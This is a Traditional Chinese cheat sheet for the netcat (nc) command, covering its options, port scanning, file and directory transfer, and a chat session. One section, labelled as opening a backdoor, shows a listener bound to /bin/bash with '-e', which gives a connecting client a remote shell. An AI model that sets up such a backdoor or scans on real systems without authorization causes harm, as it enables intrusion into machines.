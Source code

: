 # nc(netcat)

- 用途：用於網路的cat，檢查port有沒有通，支援多種協定

## 語法

```shell
nc [OPTIONS] [hostname] [port]
```

## 參數

| 參數                      | 說明                                              |
| ------------------------- | ------------------------------------------------- |
| -4                        | 只使用IPv4                                        |
| -6                        | 只使用IPv6                                        |
| -U, --unixsock            | 只使用unixsock                                    |
| -C, --crlf                | Use CRLF for EOL sequence                         |
| -c, --sh-exec \<command>  | 透過/bin/sh執行給定的command                      |
| -e, --exec \<command>     | 執行給定的command                                 |
| --lua-exec \<filename>    | 執行給定的lua script                              |
| -g hop1[,hop2,...]        | Loose source routing hop points (8 max)           |
| -G \<n>                    | Loose source routing hop pointer (4, 8, 12, ...)  |
| -m, --max-conns \<n>       | 最大連線數設定                                    |
| -d, --delay \<time>        | Wait between read/writes                          |
| -o, --output \<filename>   | Dump session data to a file                       |
| -x, --hex-dump \<filename> | Dump session data as hex to a file                |
| -i, --idle-timeout \<time> | Idle read/write timeout                           |
| -p, --source-port port    | 指定要使用的port                                  |
| -s, --source addr         | Specify source address to use (doesn't affect -l) |
| -l, --listen              | 綁定port並開始監聽連線                            |
| -k, --keep-open           | 保持連線                                          |
| -n, --nodns               | 不透過dns解析hostname                             |
| -t, --telnet              | Answer Telnet negotiations                        |
| -u, --udp                 | 使用UDP，預設為TCP                                |
| --sctp                    | 使用SCTP，預設為TCP                               |
| -v, --verbose             | 顯示執行過程，可添加多個v變更詳細                 |
| -w, --wait \<time>         | 連線timeout                                       |
| -z                        | Zero-I/O mode，只回傳連接狀態                     |
| --append-output           | Append rather than clobber specified output files |
| --send-only               | 只傳送資料                                        |
| --recv-only               | 只接收資料                                        |
| --allow                   | 只允許給定的host去連接                            |
| --allowfile               | 只允許給定的hosts檔去連接                         |
| --deny                    | 拒絕給定的host去連接                              |
| --denyfile                | 拒絕給定的hosts檔去連接                           |
| --broker                  | Enable Ncat's connection brokering mode           |
| --chat                    | Start a simple Ncat chat server                   |
| --proxy \<addr[:port]>     | 指定proxy address                                 |
| --proxy-type \<type>       | 指定proxy type                                    |
| --proxy-auth \<auth>       | 設定proxy的驗證                                   |
| --ssl                     | 透過SSL連線或監聽                                 |
| --ssl-cert                | 指定ssl cert file去監聽                           |
| --ssl-key                 | 指定ssl key去監聽                                 |
| --ssl-verify              | Verify trust and domain name of certificates      |
| --ssl-trustfile           | PEM file containing trusted SSL certificates      |
| --ssl-ciphers             | Cipherlist containing SSL ciphers to use          |

## 基本操作
1. 遠端機器掃描port
```shell
# 指定ip 192.168.0.1上的1-1000與2000-3000這兩個範圍的TCP連接阜，看哪些有開啟
nc -vnz -w 1 192.168.0.1 1-1000 2000-3000

# 指定ip 192.168.0.1上的所有udp連接阜進行掃描
nc -vnzu 192.168.0.1 1-65535
```

2. 傳送檔案或目錄
```shell
#在5000 port上接收myfile檔案 
server
nc -l 5000 > myfile

client
nc server_ip_or_host 5000 < myfile

#在5000 port上接收目錄
server
nc -l 5000 | tar xvf -

client
tar cvf - /path/to/dir | nc server_ip_or_host 5000
```

3. 建立session
```shell
# 在5000 port上聊天
server
nc -4 -l -p 5000

client
nc server_ip_or_host 5000
```

4. server開後門
```shell
# 在8089 port上留給client執行bash
server
nc -4 -l -vv -p 8089 -e /bin/bash

client
nc 192.168.56.147 8089
```

## 參考資料
* https://blog.gtwang.org/linux/linux-utility-netcat-examples/
* https://iter01.com/608959.html
* https://www.tecmint.com/netcat-nc-command-examples/
* https://www.gushiciku.cn/pl/gazb/zh-tw
## 相關指令
* telnet
* nmap